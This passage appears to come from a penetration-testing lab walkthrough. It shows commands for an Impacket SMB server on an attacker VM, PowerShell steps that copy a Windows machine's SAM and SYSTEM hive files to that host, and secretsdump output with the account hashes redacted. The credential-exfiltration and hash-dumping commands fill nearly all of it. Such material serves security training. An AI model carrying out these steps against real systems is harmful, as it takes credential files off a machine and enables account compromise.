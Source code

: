 Setup an SMB share with credentials on your host:

```shell
❯ sudo impacket-smbserver share . -smb2support -username low -password 'p@ssw0rd'
[sudo] password for kali:
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Transfer the SAM and SYSTEM files to your attacker VM:

```powershell
PS C:\Users\user> $pass = ConvertTo-SecureString 'p@ssw0rd' -AsPlainText -Force

PS C:\Users\user> $cred = New-Object System.Management.Automation.PSCredential('low', $pass)

PS C:\Users\user> New-PSDrive -Name "share" -PSProvider "FileSystem" -Root "\\192.168.119.130\share" -Credential $cred
```

Transfer the files to your host:

```powershell
PS C:\> cp C:\sam  \\192.168.119.130\share
PS C:\> cp C:\system \\192.168.119.130\share
```

Now we have transferred these files to the attacker host:

```shell
❯ ls -l sam
.rwxr-xr-x root root 48 KB Tue Mar  8 17:48:37 2022  sam
❯ ls -l system
.rwxr-xr-x root root 12 MB Tue Mar  8 17:49:40 2022  system
```

Use secretsdump from impacket to dump out the hashes from the SAM and SYSTEM files:

```shell
❯ impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxb:::
Guest:501:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
DefaultAccount:503:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
WDAGUtilityAccount:504:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
user:1001:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
[*] Cleaning up...
```
